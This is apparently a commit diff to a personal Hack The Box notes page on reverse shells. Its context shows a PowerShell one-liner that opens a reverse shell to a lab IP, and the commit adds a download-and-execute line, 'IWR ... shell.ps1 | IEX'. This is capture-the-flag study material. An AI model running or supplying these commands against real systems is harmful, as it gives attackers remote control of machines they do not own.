

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md, in a window 1280 px wide and 900 px high, scrolled down 844 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1682 px from its top, so only the background shows below that.

Commit message:
Update Reverse Shell

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md
@@ -48,6 +48,10 @@ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.
 $callback = New-Object System.Net.Sockets.TCPClient("10.115.7.133",53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$callback.Close()
 ```
 
+```powershell
+ IWR http://10.10.14.15:8000/shell.ps1 -UseBasicParsing | IEX
+```
+
 #### Pearl
 
 ```Pearl
````
